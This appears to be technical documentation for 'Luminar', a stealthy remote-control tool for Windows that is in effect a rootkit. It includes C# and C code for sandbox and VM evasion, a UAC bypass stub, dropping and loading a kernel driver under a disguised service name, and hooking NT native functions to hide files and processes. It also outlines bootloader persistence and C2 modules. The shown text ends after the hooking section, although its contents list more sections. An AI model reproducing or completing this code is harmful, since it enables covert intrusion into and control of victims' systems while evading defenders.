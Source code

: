 # Luminar - Technical Documentation

## Table of Contents

1. [Introduction](#introduction)
2. [System Architecture](#system-architecture)
3. [Deployment Mechanism](#deployment-mechanism)
4. [Environment Detection](#environment-detection)
5. [Privilege Escalation](#privilege-escalation)
6. [Kernel Driver Loading](#kernel-driver-loading)
7. [Native Function Hooking](#native-function-hooking)
8. [Persistence](#persistence)
9. [Client-Server Communication](#client-server-communication)
10. [Technical Appendices](#technical-appendices)

## Introduction

Luminar is an advanced remote monitoring and control solution designed to operate stealthily on Windows systems. This technical documentation details the internal mechanisms and techniques used to ensure its operation, stealth, and persistence.

## System Architecture

Luminar consists of several interconnected modules:

1. **Client Module**: Main executable deployed on the target system
2. **Kernel Module**: Kernel-mode driver for low-level operations
3. **Persistence Module**: Component that modifies the bootloader to ensure persistence
4. **C2 Server**: Command and control infrastructure for client management

![System Architecture](images/system_architecture.png)

## Deployment Mechanism

Luminar deployment follows a multi-stage process designed to maximize stealth and effectiveness:

```mermaid
graph TD
    A[Initial Execution] --> B{VM Detection}
    B -->|VM detected| C[Legitimate Behavior]
    B -->|Real System| D[Stealth Deployment]
    D --> E[Privilege Escalation]
    E --> F[Kernel Driver Loading]
    F --> G[NT Function Hooking]
    G --> H[Bootloader Modification]
    H --> I[Persistence Established]
```

## Environment Detection

During its initial execution, Luminar performs a series of checks to determine if it's running in a virtual environment (sandbox, virtual machine) or on a real physical system.

### VM Detection Techniques

```csharp
public static bool IsVirtualMachine()
{
    // Check hardware signatures
    if (CheckVMHardwareSignatures())
        return true;
        
    // Check for known VM artifacts
    if (CheckVMDrivers() || CheckVMServices())
        return true;
        
    
    // Timing analysis (VMs have different timing characteristics)
    if (PerformTimingAnalysis())
        return true;
        
    return false;
}
```

If a virtual machine is detected, Luminar adopts legitimate behavior to avoid detection, acting as a standard application without deploying its malicious components.

## Privilege Escalation

On a real system, Luminar proceeds to escalate privileges from standard user (USER) to administrator rights (ADMIN).

### Elevation Techniques

1. **UAC Bypass**: Circumvention of User Account Control

```csharp
private static bool BypassUAC()
{
    // Using the deferred execution technique
    string systemDir = Environment.GetFolderPath(Environment.SpecialFolder.System);
    string explorerPath = Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.Windows), "explorer.exe");
    
    // Creating a COM task with automatic elevation
    ITaskService taskService = new TaskScheduler.TaskScheduler();
    taskService.Connect();
    
    // Configuring the task with elevated privileges
    // ...
    
    return true;
}
```

2. **SOON**

## Kernel Driver Loading

Once administrator privileges are obtained, Luminar proceeds to load its kernel-mode driver.

### Driver Loading Process

```csharp
private static bool LoadKernelDriver()
{
    // Extract driver from resources
    byte[] driverData = ExtractDriverResource();
    
    // Write driver to a temporary location
    string driverPath = Path.Combine(Path.GetTempPath(), GenerateRandomName() + ".sys");
    File.WriteAllBytes(driverPath, driverData);
    
    // Load driver via Service Control Manager
    IntPtr scmHandle = OpenSCManager(null, null, SC_MANAGER_ALL_ACCESS);
    
    if (scmHandle == IntPtr.Zero)
        return false;
    
    // Create and start service for the driver
    IntPtr serviceHandle = CreateService(scmHandle, "LuminarDriver", "Luminar System Service", 
                                        SERVICE_ALL_ACCESS, SERVICE_KERNEL_DRIVER, 
                                        SERVICE_DEMAND_START, SERVICE_ERROR_NORMAL, 
                                        driverPath, null, IntPtr.Zero, null, null, null);
    
    if (serviceHandle == IntPtr.Zero)
    {
        // If service already exists, open it
        serviceHandle = OpenService(scmHandle, "LuminarDriver", SERVICE_ALL_ACCESS);
    }
    
    // Start the service
    bool result = StartService(serviceHandle, 0, null);
    
    // Cleanup
    CloseServiceHandle(serviceHandle);
    CloseServiceHandle(scmHandle);
    
    return result;
}
```

## Native Function Hooking

Once loaded, the kernel-mode driver modifies Windows NT native functions to implement stealth capabilities.

### Hooking Technique

```c
// Kernel-mode driver code
NTSTATUS DriverEntry(PDRIVER_OBJECT DriverObject, PUNICODE_STRING RegistryPath)
{
    // Driver initialization
    // ...
    
    // Hook NtQueryDirectoryFile function to hide files
    g_OriginalNtQueryDirectoryFile = (NtQueryDirectoryFilePtr)InterceptKernelFunction(
        L"NtQueryDirectoryFile", 
        (PVOID)HookedNtQueryDirectoryFile
    );
    
    // Hook NtQuerySystemInformation function to hide processes
    g_OriginalNtQuerySystemInformation = (NtQuerySystemInformationPtr)InterceptKernelFunction(
        L"NtQuerySystemInformation", 
        (PVOID)HookedNtQuerySystemInformation
    );
    
    // Hook other native functions
    // ...
    
    return STATUS_SUCCESS;
}